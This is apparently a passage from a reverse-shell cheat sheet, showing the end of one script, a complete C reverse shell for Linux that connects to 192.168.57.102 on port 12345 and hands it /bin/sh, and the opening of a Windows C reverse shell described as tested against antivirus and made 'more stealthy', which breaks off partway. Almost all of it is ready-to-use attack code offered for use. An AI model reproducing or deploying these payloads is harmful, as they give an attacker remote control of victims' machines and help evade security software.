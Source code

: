 ```
    p.wait()
except KeyboardInterrupt:
    s.close()
```

## <mark style="color:red;">C language</mark>

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    int sockfd;         
    int lportno = 12345;    
    struct sockaddr_in serv_addr;
    char *const params[] = {"/bin/sh",NULL};
    char *const environ[] = {NULL};

    sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = inet_addr("192.168.57.102");
    serv_addr.sin_port = htons(lportno);  
    connect(sockfd, (struct sockaddr *) &serv_addr, 16);

    dup2(sockfd,0);
    dup2(0,1);
    dup2(0,2);
    execve("/bin/sh",params,environ);
}
```

```
/* Windows Reverse Shell 
Test under windows 7 with AVG Free Edition.
Author: Ma~Far$ (a.k.a. Yahav N. Hoffmann)
Writen 2016 - Modified 2016
This program is open source you can copy and modify, but please keep author credit!
Made a bit more stealthy by infoskirmish.com - 2017
*/

#include <winsock2.h>
#include <stdio.h>

#pragma comment(lib, "w2_32")

WSADATA wsaData;
SOCKET Winsock;
SOCKET Sock;
struct sockaddr_in hax;
char aip_addr[16];
STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;
  

int main(int argc, char *argv[]) 
{
	WSAStartup(MAKEWORD(2,2), &wsaData);
	Winsock=WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP,NULL,(unsigned int)NULL,(unsigned int)NULL);
    
```